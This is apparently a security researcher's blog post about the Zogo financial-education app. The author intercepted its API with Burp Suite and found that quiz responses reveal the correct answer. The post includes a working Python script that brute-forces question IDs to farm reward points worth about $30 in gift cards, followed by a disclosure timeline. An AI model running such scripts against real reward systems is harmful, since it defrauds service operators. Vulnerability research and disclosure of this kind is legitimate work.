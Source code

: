 ```yaml
---
title: "Zoh-no Zogo: Manufacturing pineapples (and cash) with Burp Suite"
date: 2021-01-19 20:55:59 -0500
header-img: "/images/zogo-redeem.png"
---
```


[Zogo](https://zogofinance.com/) is a finanical education app that offers incentives to its users, through gift cards, for completing learning "modules". These modules are fairly broad, and cover topics such as an introduction to investing, 401ks, health insurance, and purchasing your first home.

{% include image.html file="zogo-map" alt="Some of the modules available on Zogo" %}

The incentives take the form of gift cards, and include Amazon, Apple, and other gift cards that are pretty much as good as cash.

You earn pineapples by participating in the app through various quizzes, and once you have 5000 pineapples, you can redeem a $5 gift card.

{% include image.html file="zogo-redeem" alt="5,000 pineapples can be redeemed for a $5 Amazon gift card" %}

I wanted to poke around and see what their API looked like, and if there was a quicker way to generate these pineapples

## Firing up burp suite

I used burp suite and set up the local proxy, hoping that the app wasn't using TLS stapling. There's a great jailbroken library called [SSL Kill Switch 2](https://github.com/nabla-c0d3/ssl-kill-switch2) that will bypass the native TLS stapling API on ios devices, but my current iPhone isn't jailbroken.

I was hopeful, though, because Zogo is still a small start up and probably hasn't made network security a top priority.

I launched the app and it hit their API immediately. I started playing around and tried to map out every action you could do. Things became interesting once I tried answering one of the questions in the quiz.

{% include image.html file ="zogo-question" alt="Answer a question about HMOs" %}

As soon as I answered that question, this network request fired off:

{% include image.html file="zogo-question-req" alt="Burp suite showing the Zogo API request" %}

And the response was even better:

{% include image.html file="zogo-question-resp" alt="Burp suite showing the Zogo API response, including the valid answer" %}

Not only is there an endpoint for accepting quiz responses - it also tells you which option is correct. At this point I wanted to bring this over to python so I could play around with a bit more.

{% include image.html file="zogo-question-resp" alt="Burp suite showing the Zogo API response, including the valid answer" %}

Burp suite has a great extension called "Copy as requests". It will allow you to copy any network request as a python snippet.

{% include image.html file="zogo-burp" %}

Copying the request to python yielded this code that I could just run.

```py
import requests

burp0_url = "https://api.zogofinance.com:443/production/v19/activity/multiple-choice"
burp0_headers = {"Content-Type": "application/json", "Origin": "ionic://localhost", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Accept": "application/json, text/plain, */*", "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 14_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148", "Authorization": "Bearer <my token>", "Accept-Language": "en-us"}
burp0_json={"content_id": 101789, "is_party": False, "selected_answer_index": 0, "time_taken": 0}
requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
```

This lets you quickly start playing around with the request, and poke around their API.

## Writing a solver

I brought this over to jupyter notebook so I could figure out how to bruteforce the right answer to every question.

{% include image.html file="zogo-notebook" alt="Jupyter Notebook to play around with the request" %}

I looked at the response and wrote a small script to iterate over every question ID and try and answer it with a `selected_answer_index`. If it was correct I'd collect the pineapples and move on to the next one, and if it wasn't, I'd just grab the known correct index from the response and resubmit it.

```py
for i in range(1000):
    burp0_json={"content_id": 100000+i, "is_party": False, "selected_answer_index": 1, "time_taken": 0}
    resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
    resp = resp.json()
    if 'multiple_choice' not in resp:
        pprint.pprint(resp)
        continue
    if not resp['multiple_choice']['is_correct']:
        print(f'wrong answer for {burp0_json["content_id"]}')
        burp0_json['selected_answer_index'] = resp['multiple_choice']['correct_answer_index']
        resp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json).json()
    print(str(i), resp['multiple_choice']['is_correct'])

```

This worked immediately. Some question IDs didn't exist, which spit back an error from their API, but valid questions would just give out points.

{% include image.html file="zogo-force-running" alt="Answering every question ID correctly" %}

The great thing about this is that it bypassed the "hearts" limit in app - if you answered 5 questions incorrectly, you'd run out of hearts, and would have to wait something like 5 hours before you could use the app again. The route didn't check if you had any hearts left, though, so you could just bruteforce the entire ID space with valid answers and collect the rewards.

## Results

I brute forced 1000 question ids, which lead to nearly 30000 points, or $30 on amazon. Not a crazy amount of cash, but definitely an amount that would be felt on Zogo's balance books if a non trivial percent of people abused this system. I also didn't search through the whole ID space, so it's possible the ceiling is significantly higher.

## Timeline

Vulnerability reported: 1/18/21

Vulnerability acknowledged + fix prioritized: 1/19/21

{% include image.html file="zogo-email" %}

Zogo was really fast in getting back to me and acknowleding the issue, and they'll be adding in limits to the route and patching the issue. The vulnerability would have lead to a relatively small loss, but could potentially be abused if a larger group of users started exploiting it.
